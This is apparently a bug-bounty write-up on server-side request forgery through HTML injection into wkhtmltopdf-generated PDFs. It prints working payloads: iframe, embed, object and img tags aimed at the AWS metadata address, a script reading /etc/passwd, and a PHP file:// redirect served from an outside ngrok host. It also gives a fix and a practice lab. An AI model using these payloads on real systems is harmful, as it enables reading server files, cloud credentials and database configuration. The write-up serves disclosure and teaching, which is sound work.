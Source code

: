 ```yaml
---
title: "SSRF to Local File Read"
date: 2021-03-30
tags: [BugBounty, BugBountyTips, Server Side Request Forgery, Local File Disclosure, SSRF, LFI, Ruby On Rails, Rails]
excerpt: "SSRF to Local File Read"
header:
  image: "assets/images/BugBountyImages/ssrf/ssrf_to_lfi.png"

---
```


Greetings everyone, this blog post is about the vulnerability that I have identified in `Wkhtmltopdf` gem, which was allowing users to inject HTML in the pdf files, and after doing further research, I was able to identify that the parser's functionality was vulnerable to internal SSRF attack, which further allowed me to read server's local file.

Injecting the simple HTML payload the code section oft the application `"><h1>XSS</h1>`

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png" alt="">

Loading the PDF file show's the injected HTML has been successfully executed in our PDF file. 

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png" alt="">


So as you can see HTML injection is happening in our pdf file and at this time as one's my excitement level can be high, Since we know in these kinds of cases there are high chances to find internal SSRF or read local files from the server.

So the next thing I did is to send an XHR request using file:///,As mentioned in the blog post by noob ninja [LFI to XSS](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

```ruby
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script
```

But nothing happened. I realized that the script was blocked and the XHR request got failed. Okay so, the next thing that I have tried is to send the request to my server and checked the response headers. I used simple payload `"><img src="[http://406e7772.ngrok.io](http://406e7772.ngrok.io/)">` and I was presented with the `User-agent` header as `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34`.

I also tried to extract passwd file using the payload `"><iframe src="file:///etc/passwd" height="500" width="500">` it didn't worked as well, got a blank pdf file.

From the user-agent, `wkhtmltopdf` sounds suspicious to me, and after doing a bit of googling I was able to find that `wkhtmltopdf` is vulnerable to SSRF Attacks. [Issue link.](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)

It was time to try to call AWS metadata API's and that's what I did. So I used an iframe to request internal AWS API's

```ruby
"><iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height="500" width="500">
```

and I was presented with meta data response. I was able to fetch instance identity.

```ruby
document
signature
pkcs7
rsa2048
```

So at this point it was a confirmed internal SSRF.

I didn't want to stop there, as I wanted to exploit it further and read the local files of the server. My hunger just to get read local files so I can sleep peacefully.

As mentioned in the above blog post, `wkhtmltopdf` is vulnerable to SSRF attack and it's through the location header.

```ruby
<?php
     header('location:http://127.0.0.1');
?>
```

So, what I did, create a php file with the following content:

```ruby
<?php header('location:file://'.$_REQUEST['url']); ?>
```

Hosted this PHP file on my ngrok server and then I sent the payload as:

```ruby
"><iframe height="2000" width="800" src=http://c723862e.ngrok.io/test.php?x=%2fetc%2fpasswd></iframe>
```

and i was presented with the PDF file

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png" alt="">

Yayy!! I was able to read the local file of the server. as I know more about the organization and how they store their application internally I tried to fetch their database.yml file in path `/config/database.yml` but it did not succeed. Later, I figured it out that they had their database file in `/var/company_name/config/database.yml` and I was able to read their DB file as well.

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.10.55_AM.png" alt="">

### Payloads

In case script and iframe are blocked you can use these payloads:

```html
embed
object
img
```

And you can further craft your payload as:

```html
"><embed src="http://169.254.169.254/latest/dynamic/instance-identity/" width=”200″ height=”200" />

"><object data="http://169.254.169.254/latest/dynamic/instance-identity/" width="400" height="300" type="text/html"></object>

"><img src='http://169.254.169.254/latest/dynamic/instance-identity/' height="2000" width="800">
```

### How to fix this SSRF?

To fix this vulnerability use `-disable-local-file-access` while converting HTML files into PDF.

if you are using wicked_pdf then introduce the `disable_local_file_access` parameter in `parse_others`function. it should look like this:

```ruby
r += make_options(options, [:book,
		                              :other_parameters
                                  :disable_smart_shrinking,
                                  :disable_local_file_access,
                                  :no_stop_slow_scripts], '', :boolean)
```

### Re-creating SSRF locally!

So, I did coded this for my friend so he can practice this bug type.

to reproduce this issue first you need to install wkhtmltopdf in your machine.

**Installation for Debian:**

```bash
$ apt-get install libfontenc1 xfonts-75dpi xfonts-base xfonts-encodings xfonts-utils openssl build-essential libssl-dev libxrender-dev git-core libx11-dev libxext-dev libfontconfig1-dev libfreetype6-dev fontconfig -y
$ wget https://github.com/wkhtmltopdf/wkhtmltopdf/releases/download/0.12.5/wkhtmltox_0.12.5-1.bionic_amd64.deb
$ dpkg -i wkhtmltox_0.12.5-1.bionic_amd64.deb
$ apt --fix-broken install
```

**Installation for Kali Linux:**

```bash
$ sudo apt-get install wkhtmltopdf
```

<script src="https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd.js"></script>


<script src="https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707.js"></script>

Host these two files on your apache2 server and now you can go to the URL `[http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>](http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>)` once you hit this URL, a test.html file will be created with your supplied input and a PDF file will be generated.

You are good to go with your SSRF to LFI lab and practice it further! ;)
